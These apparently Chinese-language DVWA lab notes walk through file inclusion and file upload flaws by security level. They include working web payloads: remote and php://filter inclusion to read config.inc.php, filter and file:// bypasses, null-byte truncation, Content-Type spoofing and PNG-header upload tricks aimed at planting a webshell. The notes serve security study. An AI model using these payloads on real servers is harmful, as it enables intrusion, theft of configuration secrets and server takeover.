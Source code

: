 ### File Inclusion  文件包含漏洞
**漏洞说明：**  
php中使用require、include包含文件，只要文件内容符合php的语法就可以被执行，任何文件后缀都可以；不符合语法时则直接输出。
当开启了allow_url_fopen时将可以包含远程文件，可以构造任意远程代码，在该服务器执行。

```
Low:
    文件名直接从GET[page]参数中获取，可以直接改为任意文件  
    1. 直接执行远程php代码：
    /vulnerabilities/fi/？page=http://localhost/safe/sample_vulnerable_code/phpinfo.txt
    2. base64_decode的方式读取文件内容，并展示在页面
    vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=../..   /config/config.inc.php

Medium:  
    对参数进行了简单的过滤
    $file = str_replace( array( "http://", "https://" ), "", $file );
    $file = str_replace( array( "../", "..\"" ), "", $file );

    hthttps://tp:// 过滤后，刚好为http:// 绕过该防护，过滤太简单。

High:
    程序主要功能是引用 file1.php file2.php file3.php include.php, 所以代码中增加了文件名的校验。
    if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
        //   验证文件为include.php 或者文件名为 file开头。
        echo "ERROR: File not found!";
        exit;
    }
    利用file协议即可绕过该正则判断： vulnerabilities/fi/?page=file:///C:/Windows.ini

Impossible:
    High级别的策略是对的，但是正则写的不够严谨。在代码中使用白名单，文件名称全匹配，避免了引入其他未知文件.

PS：
    在php版本小于5.3.4的服务器中，当Magic_quote_gpc选项为off时，我们可以在文件名中使用%00进行截断，也就是说文件名中%00后的内容不会被识别。
    或者使用超长文件名，让程序自动截断文件名，不分php版本。

```

### File Upload   文件上传
**漏洞说明：**
对上传文件没有限制，导致用户上传了可执行的代码文件。
在拿到网站后台后，会优先寻找上传漏洞，上传小马进而获取服务器webshell权限。
```
Low :
    没有任何防护，文件没用重命名，可直接上传php。

Medium:  
    1. 上传.php文件报错如下：
        Error:  Your image was not uploaded. We can only accept JPEG or PNG images.
    2. 修改Content-Type: image/png，成功上传了phpinfo.php文件。

    源码：
        $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
        if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
        只判断了header头中的content-type，通过抓包工具修改header头即可。

High:
    源码增加了文件名后缀的判断，但文件未重命名。
    上传 test.php%00.png，在文件开始增加png头[89 50 4E 47 0D 0A 1A 0A]，
    在php<5.3.4 && Magic_quote_gpc=off时，通过substr获取的后缀为png，在保存文件时%00会截断为test.php

    %00的增加方式：
        1. 使用burpsuite抓包，在Row模式下文件名中间增加空格，然后切换到hex编码，找到20改成00.
```